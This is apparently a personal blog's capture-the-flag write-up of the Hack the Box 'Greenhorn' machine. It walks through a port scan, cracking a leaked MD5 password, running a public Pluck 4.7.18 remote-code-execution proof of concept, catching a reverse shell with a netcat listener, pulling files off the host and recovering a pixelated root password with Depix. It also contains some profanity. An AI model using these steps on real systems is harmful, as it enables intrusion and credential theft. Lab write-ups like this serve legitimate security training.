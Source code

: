 ```yaml
---
draft: false
title: "Hack the Box #6 - Greenhorn w/o Metasploit"
date: 2024-09-24
author: William
category:
  - Tech
tags:
  - Security
  - Hacking
  - Linux
description: Detailed Hack the Box Greenhorn write-up where I share the full process of enumeration, exploitation, and privilege escalation. From cracking MD5 hashes to leveraging a PoC for a reverse shell, and even using a de-pixelling tool for root access, this guide takes you through the challenges and solutions of this HTB box. Perfect for CTF enthusiasts looking for in-depth insights and a step-by-step breakdown of exploiting Greenhorn!
cover:
  image: GreenHorn.png
  alt: GreenHorn.png
---
```


I would be lying if I said I posted this Hack the Box Greenhorn writeup within the same week of me exploiting it. In truth life happened. I did a SANs and a couple of late nights out. But here it is, my greenhorn writeup. 

## Enumeration
Lets start as we always do after booting up the box and have a look at what ports are available to us with an nmap.
```bash
└─$ nmap -sV -p- 10.10.11.25 -oN nmap.scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-19 22:55 BST
Nmap scan report for 10.10.11.25
Host is up (0.056s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  ppp?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=9/19%Time=66EC9DF4%P=x86_64-pc-linux-gnu%r
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.25 seconds
```

Port 22 and 80 are pretty standard. SSH and a basic webserver. But what is this port 3000 you might ask?  Hitting port 3000 from the browser we are greeted with...
![Gitea](https://about.gitea.com/gitea-text.svg)
Gitea is a self-hosted GitHub which I have considered hosting myself from time to time. 
In poking around we find a repository on Gitea for a software called pluck. They were even kind enough to in include the version 4.7.18

Going to google and using my extensive searching knowledge by typing "pluck 4.7.18 Exploit poc Github" and we find this lovely [repo](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC)

Cool beans so we have an exploit but when looking at the exploit we need to authenticate for that.

Rummaging through the repo some more we find that MD5 hash is used to encrypt passwords, this is a very secure choice if you want to get pwned! These guys know what they are doing!!! And with a little bit more rummaging we find under the settings folder there is a file called pass.php with a suspiciously MD5 looking hash

Taking that badboy and throwing it into [crackstation.net](https://crackstation.net/), we have a match!!! `iloveyou1` awww i love you to greenhorn. Now that we have everything we need lets have a look at this pluck webserver running on port 80.

Navigating to the login page we only need to put in a password. Great with a quick `iloveyou1` we are logged in! Now we can leverage the sweet sweet remote code execution PoC we found earlier.

## Exploitation
Lets take a closer look at the script we have. It requires the following details to execute correctly

```bash
login_url = "http://<hostname>/login.php"
upload_url = "http://<hostname>/admin.php?action=installmodule"
headers = {"Referer": login_url,}
login_payload = {"cont1": "<password>","<username>": "","submit": "Log in"}
```

`Hostname` and `password` we already have. For the `username` we can inspect the login payload, either through developer tools or burp (Yes we are running everything though our burp proxy).
We get the user `bogus`

Customizing the payload inline with this information we prepare out netcat to listen for the call home. And after executing the script we get catch a reverse shell.

```bash
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.25] 44696
SOCKET: Shell has connected! PID: 84927
whoami
www-data
```

Boom. Looks like we are running the the www-data context but its something. Looking around the box we find two users `git` and `junior` git we get permission denied but junior!!!

```bash
ls /home/junior
Using OpenVAS.pdf
archivo.pdf
linpeas.sh
user.txt
```

Boys rocking linpeas like a pro! Saddly for user.txt we get permission denied. CAN YOU blame me... It was worth the try. We need to achieve persistence. SSH to the box fails, with junior being locked down with a public key.

Nothing much else of interest after poking around for a bit longer. I got to the point of insanity where I was trying to extract the .pdf files by writing my own custom HTTP server that would accept POST requests it dawned on me. What if...

```bash
su junior
Password: iloveyou1
whoami
junior

cat user.txt
============ USER_FLAG ============ 

```

![table_flip](https://i.giphy.com/sIE0hveuiwCNG.webp#center)
## Privilege Escalation 

After taking a break to sooth my stupidity, I come back to my computer ready for round 2. We can now look at the PDF files by hosting an http server on the box and pull the files to our kali box

```bash
python3 -m http.server

-------
└─$ wget <http://10.10.11.25:8080/Using\\> OpenVAS.pdf
```

Opening it we get this lovely document. I literally muttered you little bitch when I saw it.
![image.png](https://i.imgur.com/DqVqGGd.png)

WHO THE FUCK SCRAMBLES THIER PASSWORDS LIKE THIS! WHO IN THIER RIGHT MIND WILL DO THIS!!! 
It looks like some sort of image scrambling has taken place that we need to unscrable. After looking around we find this lovely repo that can help us out.

[https://github.com/spipm/Depix](https://github.com/spipm/Depix)

this will unpixulate the file

```bash
└─$ python depix.py -p ../pix.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png 

```
Go from this
![image.png](https://i.imgur.com/sQ4XjKl.png)

 to this
![image.png](https://i.imgur.com/vAruc7U.png)

Now we follow the guide and use this for root access

```bash
└─$ ssh root@10.10.11.25  
root@10.10.11.25 password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

...

Last login: Thu Jul 18 12:55:08 2024 from 10.10.14.41
root@greenhorn:~#

root@greenhorn:~# cat root.txt 
============ROOT_FLAG============
```


And  like that we have root. YAY! 
To be honest not my favourite HTB CTF I have done. Getting a foot hold was fun, but the unscrambling of the password though cool just annoyed me. But anyway I'm going to go touch grass and oh here is the [proof of my accomplishment](https://www.hackthebox.com/achievement/machine/1695260/617). 

![Grass](https://i.giphy.com/phFw0JVlNfXCE.webp#center)